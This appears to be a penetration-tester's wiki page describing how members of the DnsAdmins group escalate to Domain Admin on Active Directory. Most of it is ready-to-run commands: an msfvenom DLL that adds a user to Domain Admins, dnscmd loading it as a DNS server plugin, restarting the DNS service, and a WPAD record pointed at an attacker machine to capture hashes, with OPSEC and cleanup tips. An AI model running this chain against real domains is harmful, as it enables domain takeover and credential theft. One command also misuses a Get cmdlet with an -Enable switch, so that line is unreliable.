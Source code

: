 # DnsAdmin To DC

Members of the DnsAdmin group, see [[Active-Directory-Default-Security-Groups-Table]] table showing relative relation to other default AD groups can perform [[DLL-Injection]] into the DNS process running as System to escalate when that service restarts. This also requires AD to be present as it is form of [[Active-Directory-Privilege-Escalation]].

Requires either:
- Compromised DnsAdmin group member 
- Write privileges to a DNS server object.



https://medium.com/r3d-buck3t/escalating-privileges-with-dnsadmins-group-active-directory-6f7adbc7005b
https://www.hackingarticles.in/windows-privilege-escalation-dnsadmins-to-domainadmin/

https://lolbas-project.github.io/lolbas/Binaries/Dnscmd/

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise

[Ippsec](https://www.youtube.com/watch?v=8KJebvmd1Fk) showcases a compilation of shellcode that will also not crash the DNS server for a more OPSEC safe method of privilege escalation, from [ired](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise).

1. Download https://github.com/dim0x69/dns-exe-persistance - template code for a DNS DLL plugin
2. Open .sln file in Visual Studio



1. Use [mimilibdll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib) authored by Benjamin Delphy by  modifying the [kdns.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c) file to execute code - review [labofapenetrationtester article](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html)

2. Create a WPAD Record - [[Responder-Cheatsheet]] or [[Inveigh-Cheatsheet]] to capture hashes as [DnsAdmins have permission to disable global query block security](https://docs.microsoft.com/en-us/powershell/module/dnsserver/set-dnsserverglobalqueryblocklist?view=windowsserver2019-ps)
```powershell
# Disable the global query block list
Get-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.$domain.local
# Create a malicious A record point to our machine
Add-DnsServerResourceRecordA -Name wpad -ZoneName $domain.local -ComputerName dc01.$domain.local -IPv4Address $badIPv4address
```

3. User Dnscmd to load a plugin
[adsecurity DNSAdmin to Domain Admin article](https://adsecurity.org/?p=4064) attack chain:
- *DNS management is performed over RPC*
- *[ServerLevelPluginDll](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/c9d38538-8827-44e6-aa5e-022a016ed723) allows us to load a custom DLL with zero verification of the DLL's path. *This can be done with the `dnscmd` tool from the command line*
- *When a member of the `DnsAdmins` group runs the `dnscmd` command below, the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll` registry key is populated*
- *When the DNS service is restarted, the DLL in this path will be loaded (i.e., a network share that the Domain Controller's machine account can access)*
- *An attacker can load a custom DLL to obtain a reverse shell or even load a tool such as Mimikatz as a DLL to dump credentials.*

[[Creating-Malicious-DLLs]], Review [Security Descriptor Definition Lanaguage](https://learn.microsoft.com/en-us/windows/win32/secauthz/security-descriptor-definition-language) - [How to view and modify permissions in Windows](https://www.winhelponline.com/blog/view-edit-service-permissions-windows/); 

Create a malicious DLL ([[Dynamic-Link-Libraries]]) with `msfvenom` - [[MSFVenom-Payloads]]
```bash
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```
Warning stop and starting a DNS server is destructive and bad [[OPSEC]]
```powershell
dnscmd.exe /config /serverlevelplugindll C:\programdata\adduser.dll
# If we are Privilege Escalating we may have access to ActiveDirectory PowerShell module:
# Get-ADGroupMember -Identity DnsAdmins
# The below may fail, because wmic is slow deprecating
wmic useraccount where name="$compromisedUserThatRanDnscmd" get sid
# If you have access to WmiObject then
Get-WmiObject win32_useraccount | Select name,sid

# Check permissions on DNS service - beware SDDL
sc.exe sdshow DNS
# Stop and start DNS to load the plugin
sc.exe stop DNS
sc.exe start DNS
# Confirm account is now in the Domain Admins group
net group "Domain Admins" /dom

#
# Cleanup
#
# Confirm registry key added
reg query \\$IPaddress\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
# Delete registry key
reg delete \\$IPaddress\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters/v ServerLevelPluginDll
```

This article: [http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html) utilises [mimilib.dll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib) from Ben Delphy, just modify the [kdns.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c) file.


```powershell
# Create
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName $dcSub.$Domain.$tld
# Adding a WPAD Record
Add-DnsServerResourceRecordA -Name wpad -ZoneName $Domain.$tld -ComputerName $dcSub.$Domain.$tld -IPv4Address $attackingMachine
```
